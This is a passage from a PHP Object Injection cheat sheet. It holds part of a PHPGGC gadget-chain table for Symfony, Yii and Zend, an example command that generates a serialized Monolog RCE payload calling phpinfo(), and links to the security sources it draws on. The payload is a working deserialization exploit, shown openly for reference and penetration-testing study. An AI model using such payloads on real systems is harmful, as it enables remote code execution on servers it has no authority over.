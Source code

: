 ```
Symfony/RCE2          2.3.42 < 2.6      rce              __destruct     *    
Symfony/RCE3          2.6 <= 2.8.32     rce              __destruct     *    
Yii/RCE1              1.1.19            rce              __destruct          
ZendFramework/RCE1    ? <= 1.12.20      rce              __destruct     * 
```

**Example:**

```
$ ./phpggc monolog/rce1 'phpinfo();'
O:32:"Monolog\Handler\SyslogUdpHandler":1:{s:9:"*socket";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";r:2;s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:10:"phpinfo();";s:5:"level";N;}}s:8:"*level";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"assert";}}}
```

Thanks To:
This article is composed of information found on the folowing links (+ plus some minor additions). I use this article to quick observe or demonstrate situations and as a personal reference to all the infromation needed in exploiting the PHP Object Injection Vulnerability.

Links:

- [Lucian Nitescu Security Blog](https://nitesculucian.github.io/2018/10/05/php-object-injection-cheat-sheet/)
- [Swissky Github Repo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/PHP%20serialization)
- [Security Cafe](https://securitycafe.ro/2015/01/05/understanding-php-object-injection/)
- [Owasp](https://www.owasp.org/index.php/PHP_Object_Injection)
- [Location Href](http://location-href.com/php-object-injection/)
- [Ambionics Blog](https://www.ambionics.io/blog/php-generic-gadget-chains)
- [Ambionics PHPGGC Github Repo](https://github.com/ambionics/phpggc)

---

[CheatSheet](/cheatsheet/cheatsheet_readme.md)  [HOME Page](/README.md)
